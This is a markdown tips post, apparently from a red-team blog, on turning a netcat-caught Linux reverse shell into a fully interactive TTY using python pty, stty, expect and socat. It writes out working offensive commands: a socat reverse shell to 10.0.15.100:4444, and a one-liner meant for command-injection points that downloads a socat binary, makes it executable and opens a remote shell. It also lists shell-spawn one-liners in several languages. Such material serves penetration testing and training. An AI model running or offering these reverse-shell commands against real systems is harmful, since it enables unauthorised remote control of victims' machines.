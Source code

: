 ```yaml
---
description: >-
  How to upgrade a linux reverse shell to a fully usable TTY shell
title: Upgrade a linux reverse shell to a fully usable TTY shell                    # Add title of the machine here
date: 2021-04-29 08:00:00 -0600                           # Change the date to match completion date
categories: [Tips & Tricks]                     # Categories
tags: [hacking, redteam, tips-n-tricks, python, linux, macos]     # TAG names should always be lowercase; add relevant tags
show_image_post: true                                    # Change this to true
#image: /assets/img/                # Add image here for post preview image
---
```


## Upgrading remote shells

After catching a shell through netcat, you are placed in a shell that has very limited functionality. If the remote machine has python or python3 installed you can easily upgrade to a fully functional TTY shell.

 **Note:** To check if the shell is a TTY shell use the `tty` command.
 
You can also mitigate some of the restrictions of poor netcat shells by wrapping the netcat listener with the `rlwrap` command.  This is not installed by default so you will need to install it using `sudo apt rlwrap`.

```bash
rlwrap nc -lvnp $port
```

## Upgrade to fully interactive shell using Python:

1. First, after recieving your reverse shell you need to check the availability of Python. You can do this with the `which` command.

```
which python python2 python3
```

If any of these are installed, this command will return the full path of the installed binary.  Note: The `which` command will only report programs that are installed in a folder that exists in `$PATH`.  Python will almost always be in a `$PATH` directory so this should not be an issue.

2. Next, on the victim machine type the below command (using the version of python that is available on the machine!)

```bash
python -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell
```

Your command prompt may or may not change to reflect the new shell.  If it does not change, do not panic as this is configured locally and will depend on setting on the machine you are on.

3. Next, type `ctrl-z` to send your shell to the background.

4. On your attack platform, you will need to set up your shell to send control charcters and other raw input through the reverse shell.  You can do this by using the `stty` command as below.

```
stty raw -echo
stty size 
```

The second command above will report the size of your terminal window in rows and columns.  This is useful for command output that either fills the whole terminal (such as when using commands such as `nano` or `vim`) or that would output lines that are too long to fit in the window.  Fixing the window size will allow for word-wrapping instead of cutting off output that is too long.

5. After that, type the command `fg` to return the reverse shell to the foreground.

6. Next, on victim machine type the below commands to set some important environment variables.

```
export SHELL=bash
stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

Viola!  You should now be the proud owner of a shiny new fully upgraded TTY shell with command history.  It will also allow you to use commands such as `ctrl-c` to kill remotely ruing processes rather than your own shell! Enjoy!


## Using Other Scripting Languages:

Below are some examples of other scripting languages that can be used to achieve the same upgraded shell as the second step above.  Afterwards follow along from step 3.

```python
echo os.system('/bin/bash')
/bin/sh -i

#python3
python3 -c 'import pty; pty.spawn("/bin/sh")'

#perl
perl -e 'exec "/bin/sh";'

#ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

#lua
lua -e "os.execute('/bin/sh')"
```

## Using “Expect” To Get A TTY

If you’re lucky enough to have the [Expect](http://en.wikipedia.org/wiki/Expect) language installed just a few lines of code will get you a good enough TTY to run useful tools such as “ssh”, “su” and “login”.

Create a script called `sh.exp`

```bash
#!/usr/bin/expect
# Spawn a shell, then allow the user to interact with it.
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
```

## Using socat

Another option is to upload the binary for `socat` to the victim machine and magically get a fully interactive shell. Download the appropriate binaries from [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries). Socat needs to be on both machines for this to work.

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

## socat one-liner

This one-liner can be injected wherever you can get command injection for an instant fully interactive reverse shell. Point the path to the binary to your local http server if internet access is limited on the victim.

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

## Using stty options

```bash
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

Note: The methods above will not work in every situation.  For example, I have regularly run into a problem on my Kali machine where attempting to use `stty raw -echo` while using `zsh` as my shell will cause the entire terminal to become unusable.  I have gotten around this issue by switching to `bash` before I start any netcat listener that I will be using to catch a shell.

## Other Examples

If you have any other examples of methods of upgrading reverse shells, or have any other fun or useful tips or tricks, feel free to contact me on Github at https://github.com/zweilosec or on social media!

If you like this content and would like to see more, please consider buying me a coffee! <a href="https://www.buymeacoffee.com/zweilosec"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=zweilosec&button_colour=FFDD00&font_colour=000000&font_family=Lato&outline_colour=000000&coffee_colour=ffffff"></a>

